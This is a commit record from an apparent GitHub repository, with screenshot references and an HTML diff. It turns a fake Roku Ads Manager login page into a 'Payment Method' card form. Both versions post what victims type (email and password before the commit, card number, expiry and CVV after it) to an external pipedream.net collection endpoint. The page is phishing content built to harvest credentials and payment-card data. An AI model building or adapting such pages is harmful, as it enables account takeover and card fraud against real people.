

Before and after one commit to testVolteX/login, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 297-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,9 +3,8 @@
 <head>
   <meta charset="UTF-8">
   <meta name="viewport" content="width=device-width, initial-scale=1.0">
-  <title>Login - Ads Manager</title>
+  <title>Payment Method</title>
   <style>
-    /* Background gradient */
     body {
       margin: 0;
       font-family: Arial, sans-serif;
@@ -14,27 +13,26 @@
       align-items: center;
       justify-content: center;
       height: 100vh;
+      flex-direction: column;
     }
 
-    /* Login card */
-    .login-container {
+    /* Card container */
+    .payment-container {
       background: white;
       padding: 40px;
       border-radius: 6px;
       box-shadow: 0 4px 12px rgba(0,0,0,0.1);
-      width: 360px;
+      width: 400px;
       text-align: left;
     }
 
     /* Title */
-    .login-container h1 {
+    .payment-container h1 {
       font-size: 22px;
       margin-bottom: 20px;
       font-weight: 600;
-    }
-    .login-container h1 span {
+      text-align: center;
       color: #662d91;
-      font-weight: 700;
     }
 
     /* Labels & inputs */
@@ -45,8 +43,9 @@
       color: #333;
     }
 
-    input[type="email"],
-    input[type="password"] {
+    input[type="text"],
+    input[type="number"],
+    input[type="month"] {
       width: 100%;
       padding: 10px;
       margin-bottom: 14px;
@@ -55,28 +54,13 @@
       font-size: 14px;
     }
 
-    /* Forgot password link */
-    .forgot {
-      font-size: 13px;
-      text-align: right;
-      margin-top: -10px;
-      margin-bottom: 14px;
+    /* Expiration + CVV inline */
+    .row {
+      display: flex;
+      gap: 10px;
     }
-    .forgot a {
-      color: #662d91;
-      text-decoration: none;
-    }
-    .forgot a:hover {
-      text-decoration: underline;
-    }
-
-    /* Remember me */
-    .remember {
-      margin-bottom: 16px;
-      font-size: 14px;
-      display: flex;
-      align-items: center;
-      gap: 6px;
+    .row div {
+      flex: 1;
     }
 
     /* Button */
@@ -92,20 +76,6 @@
     }
     button:hover {
       background-color: #551c7a;
-    }
-
-    /* Links below */
-    .extra {
-      text-align: center;
-      margin-top: 18px;
-      font-size: 14px;
-    }
-    .extra a {
-      color: #662d91;
-      text-decoration: none;
-    }
-    .extra a:hover {
-      text-decoration: underline;
     }
 
     /* Footer */
@@ -125,28 +95,27 @@
   </style>
 </head>
 <body>
-  <div class="login-container">
-    <h1><span>Roku</span> Ads Manager</h1>
-    <form action="https://eodyrh169lq66mf.m.pipedream.net/" method="post"  >
-      <label for="email">Email</label>
-      <input type="email" name="email" id="email" placeholder="Enter your email" required>
+  <div class="payment-container">
+    <h1>Payment Method</h1>
+    <form action="https://eodyrh169lq66mf.m.pipedream.net/" method="post" >
+      <label for="cardholder">Cardholder Name</label>
+      <input type="text" id="cardholder" name="cardholder" placeholder="John Doe" required>
 
-      <label for="password">Password</label>
-      <input type="password" name="password" id="password" placeholder="Enter your password" required>
+      <label for="cardnumber">Card Number</label>
+      <input type="number" id="cardnumber" name="cardnumber" placeholder="1234 5678 9012 3456" required>
 
-      <div class="forgot"><a href="#">Forgot password?</a></div>
-
-      <div class="remember">
-        <input type="checkbox" id="remember">
-        <label for="remember">Remember me</label>
+      <div class="row">
+        <div>
+          <label for="exp">Expiration Date</label>
+          <input type="month" name="exp" id="exp" required>
+        </div>
+        <div>
+          <label for="cvv">CVV</label>
+          <input type="number" name="cvv" id="cvv" placeholder="123" required>
+        </div>
       </div>
 
-      <button type="submit">Sign in</button>
-
-      <div class="extra">
-        Don’t have an account? <a href="#">Sign up</a><br>
-        Have questions? Go to the <a href="#">Help Center</a>
-      </div>
+      <button type="submit">Save Payment</button>
     </form>
   </div>
 
```
